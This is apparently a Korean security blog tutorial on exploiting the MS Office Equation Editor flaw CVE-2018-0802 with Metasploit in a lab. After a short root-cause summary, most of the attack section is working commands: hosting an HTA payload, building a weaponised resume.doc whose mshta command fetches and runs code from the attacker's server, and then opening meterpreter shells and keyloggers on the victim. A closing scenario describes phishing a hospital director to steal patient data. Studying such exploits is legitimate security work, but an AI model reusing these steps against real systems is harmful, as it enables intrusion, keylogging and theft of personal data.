 ```yaml
---
layout: post
title: CVE-2018-0802 MS Office 취약점 실습 (Metasploit)
categories: Tool
tags: [CVE, Metasploit]
---
```

# 목차
1. Disclaimer
1. CVE-2018-0802 취약점 발생 원인 요약
1. PoC
1. 공격 코드 설명
1. 발생 가능한 시나리오
1. References
- - -
  
# 1. Disclaimer
<font color='red'>
All the content shown in this post is only for educational purposes. Any misuse of this content is completely at your own risk.  
Do not try to attempt to break laws or do any illegal stuff by using this.

이 포스트에서 보여지는 모든 컨텐츠는 교육적인 목적으로만 제작되었습니다. 해당 컨텐츠를 오용한 결과는 전적으로 오용한 본인 책임입니다.  
이 포스트에서 다루는 내용을 이용해 불법적인 일을 저지르려고 하지 마십시오.
</font>
- - -
# 2. CVE-2018-0802 취약점 발생 원인 요약
Microsoft Office의 2007, 2010, 2013, 2016 버전에서 발생되는 CVE-2018-0802 취약점은 Office 문서에 수식을 삽입하고 편집할 때 사용하는 컴포넌트인 EQNEDT32.exe에서 발생합니다.

EQNEDT32.exe에서 폰트 레코드명을 처리하는 과정에서 원본과 대상 버퍼의 크기를 체크하지 않는, 공격에 취약한 함수인 strcpy()가 사용되었습니다.

* SUB_41160F() 내부의 strcpy() – CVE-2017-11882 취약점 관련
* SUB_421774() 내부의 SUB_421E39() 에서의 strcpy() – CVE2018-0802 취약점 관련
MS의 2017년 11월 패치 이후에는 SUB_41160F()함수의 strcpy() 전후 버퍼 크기를 확인하는 코드가 추가되었지만, SUB_421E39() 함수에 대해서는 조치가 취해지지 않았다고 합니다. 오히려 이 업데이트 이후에 SUB_41160F() 함수를 통과해 SUB_421E39()까지 제어가 넘어올 수 있게 되면서 ‘버퍼 오버플로우(Buffer Overflow)’ 공격이 발생될 수 있는 취약점이 존재합니다.
- - -

# PoC
{% include youtube_embed.html id="PDPKtL5SQXM" %}
- - -
# 4. 공격 코드 설명
{% highlight text %}
> use exploit/windows/misc/hta_server
{% endhighlight %}
hta_server 모듈은 .hta 파일이 실행되고 파워쉘을 통해 공격자의 페이로드를 실행시켜주는 해당 .hta파일을 제공합니다.

{% highlight text %}
> set srvhost 192.168.55.32
{% endhighlight %}
활성화되어있는 로컬 호스트의 주소를 적여야 합니다. 저는 가상머신의 칼리 리눅스를 사용했으므로 칼리의 ip를 적어주었습니다.

{% highlight text %}
> exploit
{% endhighlight %}
이 모듈을 이용해 익스플로잇을 하면 공격 페이로드가 삽입된 .hta파일이 생성됩니다. http://공격자의_주소/랜덤문자열.hta 위치에서 호스팅됩니다.

{% highlight text %}
python RTF_11882_0802.py -c "mshta http://192.168.55.32:8080/Fkf0e3JN6.hta" -o resume.doc
{% endhighlight %}
MS Office 수식편집기 취약점인 CVE-2017-11882와 CVE-2018-0802의 뒷번호를 딴 RTF_11882_0802.py 파이썬 코드를 이용해 -c 옵션으로 방금 익스플로잇을 수행해서 생성된 .hta파일을 입력하고, 출력되는 Office 파일의 이름을 -o 옵션에 적어줍니다.

{% highlight text %}
> sessions -i 1
{% endhighlight %}
희생자가 .doc를 열면 세션이 활성화되고, 첫번째로 활성화된 세션과 연결을 맺습니다.

{% highlight text %}
meterpreter > sysinfo
{% endhighlight %}
미터프리터 세션을 이용해 희생자의 시스템 정보를 가져옵니다.

{% highlight text %}
meterpreter > shell
{% endhighlight %}
희생자 컴퓨터에서 cmd 명령어를 입력할 수 있습니다.

{% highlight text %}
meterpreter > keyscan_start
{% endhighlight %}
희생자의 키보드 입력을 전달받습니다(키로깅).

{% highlight text %}
meterpreter > keyscan_dump
{% endhighlight %}
keyscan_start 부터 시작한 키로깅을 중단하고 로그 정보를 출력합니다.
- - -
# 5. 발생 가능한 시나리오
해커 A씨는 병원장 B씨의 개인정보와 고객 리스트를 해킹하려는 의도를 갖고 있었습니다. 그래서 사전조사를 통해 해커 A씨가 알아낸 것은, B씨가 운영하는 개인병원에서는 병원 내의 망분리도 되있지 않다는 것과 병원 내에는 Wifi 공유기만을 설치해 병원을 운영하고 있다는 것 이었습니다. 또한 A씨는 B씨의 개인병원 홈페이지 메인화면 아래쪽 footer 부분에 그의 이메일이 적혀있는 것을 발견했습니다.


<center><i>B씨의 개인병원 메인 홈페이지 화면</i></center>

<center><i>병원장 B씨 홈페이지 footer 부분에 적혀있는 이메일 주소</i></center>
(시나리오 예제 사이트는 [여기](http://jayboard.cafe24.com/emerald/index.html){:target="_blank"}에서 확인하실 수 있습니다.)

해커 A씨는 그의 스마트폰에 칼리리눅스를 설치하고, 환자인 척 B씨의 병원에 가서 wifi를 연결했습니다. 해커 A씨는 칼리리눅스의 메타스플로잇을 이용해 악성 데이터가 삽입된 .doc 파일을 제작하고, 병원장 B씨 에게 다음과 같은 이력서를 메일로 보냈습니다 :


<center><i>피싱을 위한 이력서 파일</i></center>
이렇게 A씨는 B씨를 피싱하는데 성공한 후, 미터프리터 세션을 이용해 keyscan을 수행하고, 병원장의 개인정보와 병원 고객의 데이터를 빼내는데 성공했다고 합니다.
- - -
  
# 6. References
* CVE-2018-0802 Detail
* 17년 만에 드러난 취약점의 연쇄 작용
* &#91;Research & Technique&#93; 마이크로소프트 오피스 원격 코드 실행 취약점